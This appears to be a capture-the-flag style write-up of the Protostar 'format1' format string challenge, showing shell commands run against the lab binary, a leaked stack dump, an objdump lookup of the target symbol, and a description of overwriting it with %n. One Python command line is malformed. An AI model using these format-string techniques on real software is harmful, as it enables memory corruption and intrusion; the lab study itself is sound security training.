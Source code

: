 **Format1**

This was not an easy challenge.
If you look closesly at the source code you see that the printf prints string as the format string variable.

```diff
$ printf(string);
```

Let's see what happens if we insert a random string

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 AAAA
AAAAuser@protostar:/opt/protostar/bin$ 
```

The printf prints out out string.
Now let's try a format string.

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 %d
134518284user@protostar:/opt/protostar/bin$ 
```

This looks like a memory address, we can try to print a few with them with %x.
The hints state that objdump -t is our friend (to find target's address) and our input string lies far up in the stack.
We need to find out exactly where lies our input, insert target's address and top it with a %n to modify target with a format string exploit.
Sound complicated? Let us first find out where our string lies

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 "$(pythox '*150")"'ABCDEFGH' + '%x
ABCDEFGH804960c bffff628 8048469 b7fd8304 b7fd7ff4 bffff628 8048435 bffff7eb b7ff1040 804845b b7fd7ff4 8048450 0 bffff6a8 b7eadc76 2 bffff6d4 bffff6e0 b7fe1848 bffff690 ffffffff b7ffeff4 804824d 1 bffff690 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6a8 39f3e985 13a7ff95 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6d4 8048450 8048440 b7ff1040 bffff6cc b7fff8f8 2 bffff7e1 bffff7eb 0 bffff9b6 bffff9c4 bffff9d8 bffff9fa bffffa0d bffffa17 bfffff07 bfffff45 bfffff59 bfffff70 bfffff81 bfffff89 bfffff99 bfffffa6 bfffffda bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbbf 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7cb 1f bffffff2 f bffff7db 0 0 0 a3000000 c4d03e41 d17d630f 186ae1da 692c8fff 363836 662f2e00 616d726f 41003174 **45444342** 25484746 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 user@protostar:/opt/protostar/bin$ 
```

There it is! (in bold). now we need to find out target's address

```diff
$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
```

Now, if we look at my python script, I bruteforced the offset of our input (I was lazy). We want to insert in our target address in little endian format.
What? why is it not aligned at all?
This took me hours on hours of debugging, we need to insert a few characters before and after our input to re-align target's address.
Then, we add the %n and look proud!